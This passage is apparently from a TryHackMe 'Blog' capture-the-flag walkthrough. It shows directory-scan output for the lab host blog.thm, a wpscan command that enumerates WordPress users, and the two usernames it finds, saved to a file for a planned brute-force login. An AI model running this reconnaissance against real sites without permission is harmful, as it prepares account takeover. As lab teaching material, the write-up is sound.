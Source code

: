 ```tsx
/rss2                 (Status: 301) [Size: 0] [--> http://blog.thm/feed/]
/wp-includes          (Status: 301) [Size: 310] [--> http://blog.thm/wp-includes/]
/no                   (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/N                    (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/W                    (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/welcome/]
/rdf                  (Status: 301) [Size: 0] [--> http://blog.thm/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://blog.thm/]
/Welcome              (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/welcome/]
/'                    (Status: 301) [Size: 0] [--> http://blog.thm/]
/dashboard            (Status: 302) [Size: 0] [--> http://blog.thm/wp-admin/]
/note                 (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/note-from-mom/]
/we                   (Status: 301) [Size: 0] [--> http://blog.thm/2020/05/26/welcome/]
/2020                 (Status: 301) [Size: 0] [--> http://blog.thm/2020/]
/wp-admin             (Status: 301) [Size: 307] [--> http://blog.thm/wp-admin/]
/0000                 (Status: 301) [Size: 0] [--> http://blog.thm/0000/]
```

To login successfully into the ******************Wordpress****************** dashboard, we need to know the ****************username**************** and ****************password**************** at first. To solve this, there is a powerful tool used to enumerate the ******************wordpress****************** called `wpscan`:

```tsx
wpscan --url blog.thm --enumerate u
```

In the result, I found 2 users:

```tsx
[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
```

Save them into a file for brute forcing:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Blog]
└─$ cat usernames.txt 
kwheel
bjoel
```
